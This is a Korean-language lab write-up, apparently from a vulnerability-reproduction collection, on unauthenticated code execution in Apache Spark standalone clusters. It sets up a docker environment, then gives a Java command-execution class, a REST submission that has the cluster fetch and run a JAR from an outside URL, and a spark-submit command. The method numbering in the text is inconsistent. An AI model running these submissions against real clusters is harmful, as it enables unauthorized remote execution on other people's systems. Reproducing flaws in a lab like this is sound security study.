 #Apache Spark 무단 엑세스 취약점 
아파치 스파크는 사용자가 관리 노드에 애플리케이션을 제출하고 이를 클러스터에 배포하여 실행할 수 있도록 지원하는 클러스터 컴퓨팅 시스템입니다. 
관리 노드에 ACL(접근 제어)이 활성화되어 있지 않으면 클러스터에서 임의의 코드를 실행할 수 있습니다.

## 취약한 환경

다음 명령을 실행하면 마스터와 슬레이브가 각각 하나씩 있는 standalone 모드의 Apache Spark 클러스터가 시작됩니다

```
docker compose up -d
```


환경이 시작되면 `http://your-ip:8080`을 방문하여 마스터의 관리자 페이지를 확인하고
`http://your-ip:8081`을 방문하여 슬레이브의 관리자 페이지를 확인합니다.

## exploit

이 취약점의 핵심은 권한이 없는 사용자가 악성코드를 관리 노드에 제출할 수 있다는 것입니다.

악성코드를 관리노느데 제출하는 방법은 두 가지가 있습니다:

1. REST API 사용
2. submit gateway 사용(7077포)

다음은 1번을 사용하는 가장 간단한 자바 코드입니다 

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```
JAR로 컴파일한 후 'https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar'과 같은 HTTP 또는 FTP에 넣습니다

다음은 2을 이용한 방법입니다.
stand alone 모드에서 마스터는 포트 6066에서 HTTP 서버를 시작하고, 이 서버로 REST API를 전송합니다.
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
여기서 `spark.jars`는 컴파일된 애플리케이션이고, mainClass는 실행할 클래스이며, appArgs는 애플리케이션에 전달된 매개변수입니다.
![](1.png)
반환된 패키지에 제출아이디가 포함된 경우 `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`을 방문하여 실행 결과를 확인할 수 있습니다:
![](2.png)
spark-submin하는 것은 마스터에서 이루어지며,
결과를 보는 것은 이 애플리케이션을 실행하는 슬레이브(기본적으로 포트 8081)에서 이루어집니다. 
실제로는 슬레이브는 두 개 이상 있을 수 있습니다

### 게이트웨이 사용하기

포트 6066에 액세스할 수 없거나 권한 제어가 있는 경우 마스터의 포트 7077을 사용하여 spark-submit을 할 수 있습니다.
이 방법은 아파치 스파크와 함께 제공되는 `bin/spark-submit` 스크립트를 사용하는 것입니다:
```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```
지정한 마스터 매개 변수가 rest 서버인 경우 이 스크립트는 먼저 rest API를 사용하여 앱을 제출하려고 시도하고, 
rest 서버가 아닌 것으로 확인되면 submit gateway를 사용하여 앱을 제출하는 것으로 다운그레이드합니다.

결과는 이전과 동일한 방식으로 확인합니다.
